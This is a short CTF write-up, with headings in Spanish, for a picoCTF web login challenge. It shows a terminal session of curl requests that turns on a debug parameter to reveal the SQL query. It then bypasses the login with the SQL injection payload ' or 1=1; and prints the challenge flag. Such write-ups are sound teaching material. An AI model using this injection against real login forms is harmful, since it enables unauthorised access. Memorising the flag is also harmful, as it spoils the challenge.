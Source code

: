 # Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
# Solución
```
username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'
Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}


-----------------------------------------------

┌──(kalicura㉿rufian)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.html
^C
                                                                                                                                                                      
┌──(kalicura㉿rufian)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php  
^C
                                                                                                                                                                      
┌──(kalicura㉿rufian)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=ola"
<h1>Login failed.</h1>                                                                                                                                                                      
┌──(kalicura㉿rufian)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=ola&debug=1"
<pre>username: admin
password: ola
SQL query: SELECT * FROM users WHERE name='admin' AND password='ola'
</pre><h1>Login failed.</h1>                                                                                                                                                                      
┌──(kalicura㉿rufian)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=' or password=1"
                                                                                                                                                                      
┌──(kalicura㉿rufian)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=' or 1=1;"      
<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>                                                                                                                                                                      
┌──(kalicura㉿rufian)-[~]
└─$ 
```
# Notas
- Al cambiar el valor de una variable en el código fuente de la página se puede acceder para obtener el usuario y contraseña
- De manera alternativa, podemos usar el usuario ==' or 1=1;== para forzar que el resultado de la consulta en SQL sea 1 y nos de la flag
- Otra forma es hacerlo directamente en consola
# Referencia